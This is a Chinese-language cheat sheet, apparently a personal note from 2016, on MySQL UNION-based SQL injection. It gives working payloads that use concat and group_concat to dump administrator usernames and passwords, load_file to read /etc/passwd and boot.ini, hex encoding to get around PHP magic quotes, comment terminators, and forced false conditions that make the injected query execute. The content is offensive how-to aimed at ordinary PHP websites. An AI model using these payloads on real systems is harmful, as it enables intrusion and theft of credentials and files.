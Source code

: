 ```yaml
---
title: "Mysql"
date: 2016-01-26 18:49
---
```



# MySQL注入中常用的一些参数。


* 注入语句的格式为：参数的使用位置为上述语句中的 XO 位置

```
union+select+1,2,3,XO,4,...n+from+XXOO
```


* concat()

联合数据。和联合函数union不同，union用于联合两条SQL语句，这个用于联合两条数据结果。通常是联合两个字段名，在错误回显注入法中，这个函数会联合更复杂的。
数据库中管理员通常有登录名和密码等多个字段，用concat轻松一次注入出来。例如concat(username,0x3a,password)，不同字段用逗号 , 隔开，中间加一个hex编码值。
冒号进行hex编码得到0x3a，放在concat里面注入以后就显示冒号，常用的有 ** 0x3a,0x5c,0x5f,0x3c62723e **等

* group_concat()
用法与上面类似，通常格式如下：group_concat(DISTINCT+user,0x3a,password)，group_concat顾名思义，如果管理员账号不止一个的话，concat一次只能注入出来一个，使用group_concat把多条数据一次注入出来。

* concat_ws()

用法类似

* hex()和unhex()

有一些注入点由于数据库中对数据字段的类型定义，可能不支持union来显示某些不同类型的内容，所以使用hex对数据进行hex编码，例如union+select+hex(password)+from+mysql.user
注入出来的数据全都是0x1234567890abcdef类似的数据，使用winhex等工具转换回编码即可
hex参数可用于任何参数外面，hex(concat(xxoo))，hex(user()),hex(database())

* load_file()

这是MySQL以文本方式读取文件的参数，例如：linux系统的网站load_file('/etc /passwd')或者windows系统的网站load_file('c:\\boot.ini')
这个参数可以用的前提是，你user()得到的用户名，在mysql.user表中的字段file_priv设置为Y，则load_file()参数则可用
需要注意的是，如果为windows系统，保险起见将路径设置为双斜杠\\ 因为在计算机语言中双斜杠才是单斜杠的意思，如果为单斜杠，例如d:\table，那么这个路径中得\t就会被解析为键盘上的tab键，\n\r类似，最终得不到想要的结果
很多时候，php的网站的gpc会设置为on（就是对特殊字符做修改，例如单引号'自动修改为\'），那么load_file('c:\\boot.ini')就变成：load_file(\'c:\\\\boot.ini\')出现语法错误，得不到结果
解决方法就是，和concat参数一样，hex混用，将c:\\boot.ini进行hex编码，得到：0x633a5c5c626f6f742e696e69，原语句修改为：union+select+1,load_file(0x633a5c5c626f6f742e696e69)即可
使用load_file参数后面可以不加from


** 关于几点需要注意：**

* 注入时，猜字段爆数据，有时候会遇到在原始语句后面加一些语句例如order by,desc等等，例如

```
SELECT 1,2,3,4 FROM news where id=1 ORDER BY date DESC
```

注入语句以后：

```
select 1,2,3,4 from news where id=1 union select 1,2,3,4 from admin order by date DESC
```

注入都会提示错误。所以，通常注入的时候，在语句最后加一个--横杠或者/*注释符，结束后面的语句

```
news.php?id=1+union+select+1,2,3,4+from+admin--
news.php?id=1+union+select+1,2,3,4+from+admin/*
```

* 注入时，union联合了前面和后面两个语句，系统到底执行哪个呢？只要前面那个出现了逻辑错误，union一定执行后面一个注入的SQL语句

制造逻辑错误

```
news.php?id=1 and 1=2
news.php?id=-1
```